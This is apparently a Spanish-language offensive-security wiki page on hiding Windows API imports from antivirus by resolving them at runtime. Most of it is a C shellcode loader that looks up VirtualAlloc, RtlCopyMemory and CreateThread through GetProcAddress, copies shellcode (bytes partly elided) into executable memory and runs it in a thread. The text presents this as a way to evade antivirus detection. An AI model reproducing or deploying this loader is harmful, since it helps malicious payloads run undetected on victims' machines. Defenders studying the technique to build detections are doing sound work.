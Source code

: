 # Function call obfuscation

{% embed url="https://en.wikipedia.org/wiki/Portable_Executable" %}

Portable Executable representan multiples tipos de archivos en un sistema operativo, entre los más comunes están los **.exe** o **.dll**, (aunque también existen otros como acm, .ax, .cpl, .drv, .efi, .mui, .ocx, .scr, .sys, .tsp). Estos en su estructura cuentan con la llamada **IAT** (import address table), que es la encargada de llevar el registro de que funciones está llamando la aplicación a diferentes módulos.&#x20;

Los **AV** utilizan esta tabla para determinar si una aplicación es maliciosa si tiene las mismas llamadas a funciones externas que tendría un archivo malicioso, por lo que podemos obfuscar estas llamadas a funciones en tiempo de ejecución.



```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

LPVOID (WINAPI * pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
void (WINAPI * pRtlCopyMemory)(void* Destination, const void* Source, size_t Length);
HANDLE (WINAPI * pCreateThread)(
        LPSECURITY_ATTRIBUTES lpThreadAttributes,
        SIZE_T dwStackSize,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        DWORD dwCreationFlags,
        LPDWORD lpThreadId
    );
    
void main()
{
    unsigned char shellcode[] = 
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
                             ...
    "\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
    
    pVirtualAlloc = (void* (*)(void*, SIZE_T, DWORD, DWORD))GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAlloc");
    pRtlCopyMemory = (void (WINAPI *)(void*, const void*, size_t))GetProcAddress(GetModuleHandle("NtDll.dll"), "RtlCopyMemory");
    pCreateThread = (HANDLE (WINAPI *)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD))GetProcAddress(GetModuleHandle("kernel32.dll"), "CreateThread");
    PVOID shellcode_exec = pVirtualAlloc(0, sizeof shellcode, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    pRtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
    DWORD threadID;
    HANDLE hThread = pCreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
    WaitForSingleObject(hThread, INFINITE);
}

```





Al analizar la IAT de un proceso sin obfuscar las funciones se verían algo así

<figure><img src="../../../.gitbook/assets/image (117).png" alt=""><figcaption><p>kernel32.dll funcions</p></figcaption></figure>

En cambio al obfuscar las funciones ya no se ven más en la IAT:

<figure><img src="../../../.gitbook/assets/image (118).png" alt=""><figcaption><p>kernel32.dll functions</p></figcaption></figure>
